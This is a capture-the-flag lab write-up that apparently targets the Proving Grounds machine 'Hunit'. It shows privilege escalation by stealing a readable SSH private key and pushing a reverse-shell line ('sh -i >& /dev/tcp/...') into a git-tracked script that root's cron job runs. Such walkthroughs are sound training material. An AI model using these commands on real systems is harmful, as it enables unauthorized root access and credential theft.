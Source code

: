 #### -Ran "lse.sh" and found cron job "crontab.bak" running as root and was readable and found the below contents of "crontab.bak" which file "pull.sh" and "backups.sh" was running every 2 and 3 minutes:

![](../Pasted%20Images/Pasted%20image%2020220601143832.png)

![](../Pasted%20Images/Pasted%20image%2020220601143840.png)

#### -Searched more and found directory "git-server" and found it being owned by "git" user and was git backend files which are difficult to work with so I navigated to "/tmp" directory and typed "git clone file:///git-server/" to clone the server into the "/tmp" directory:

![](../Pasted%20Images/Pasted%20image%2020220601143901.png)

![](../Pasted%20Images/Pasted%20image%2020220601143911.png)

#### -Now we can review the contents of "backups.sh" file which shows as a place holder file:

![](../Pasted%20Images/Pasted%20image%2020220601143945.png)

#### -Set up git identity by typing git config --global user.name "dademola" AND git config --global user.email "dademola@hunit.(none)"

![](../Pasted%20Images/Pasted%20image%2020220601144013.png)

#### -Typed "echo "touch /tmp/gitscript-test" >> backups.sh" and "chmod +x backups.sh" to inject a test instruction into the "backups.sh" file and to make it executable:

![](../Pasted%20Images/Pasted%20image%2020220601144050.png)

#### -But after receiving an error when trying to push the file onto the git-server and further investigation the server is owned by user "git":

#### -Found a user named "git" and found we have read and execute permissions on their ssh "id_rsa" file which is a private SSH Key:

![](../Pasted%20Images/Pasted%20image%2020220601144141.png)

![](../Pasted%20Images/Pasted%20image%2020220601144153.png)

#### -Navigate to my kali machine and typed "scp -P 43022 dademola@192.168.93.125:/home/git/.ssh/id_rsa ." to upload the private ssh key to my kali machine and "chmod 600" to set the correct permissions:

![](../Pasted%20Images/Pasted%20image%2020220601144316.png)

#### -Logged in to remote ssh session by typing "ssh -i id_rsa -p 43022 git@192.168.93.125" and found it to be a git-shell:

![](../Pasted%20Images/Pasted%20image%2020220601144348.png)

#GitShell

#### -Since this is a git-shell we should be able to interact with the git repository

#### -Typed "GIT_SSH_COMMAND='ssh -i id_rsa -p 43022' git clone git@192.168.93.125:/git-server" to clone git server onto my kali machine:

![](../Pasted%20Images/Pasted%20image%2020220601145940.png)

#### -Navigated into git-server and typed [git config --global user.name "kali"] and [git config --global user.email "kali@kali.(none)"] to setup git identity:

![](../Pasted%20Images/Pasted%20image%2020220601150134.png)

#### -Typed "echo "sh -i >& /dev/tcp/[kali IP]/8080 0>&1" >> backups.sh " to inject a reverse shell into the "backups.sh" file and typed "chmod +x to make it executable:

#### -Then typed "git add -A " and [git commit -m "pwn"] to commit the changes to the git-server:

![](../Pasted%20Images/Pasted%20image%2020220601151512.png)
![](../Pasted%20Images/Pasted%20image%2020220601151550.png)

#### -Prior to pushing the master branch to the git-server to place the reverse shell onto the git-server I started a netcat listener listening on port 8080 on my kali machine:

![](../Pasted%20Images/Pasted%20image%2020220601152015.png)

#### -Then typed "GIT_SSH_COMMAND='ssh -i /home/kali/Downloads/ProvingGroundsBoxes/Hunit/id_rsa -p 43022' git push origin master" to push everything to the master branch on git-server onto remote machine:

![](../Pasted%20Images/Pasted%20image%2020220601152121.png)

#### -As found previously the "/root/git-server/backups.sh" file runs every 3 minutes I waited about 3 minutes and received a root shell on my netcat listener:

![](../Pasted%20Images/Pasted%20image%2020220601152348.png)

![](../Pasted%20Images/Pasted%20image%2020220601152426.png)

#Git-serverCronTabScriptPrivilegeEscalation

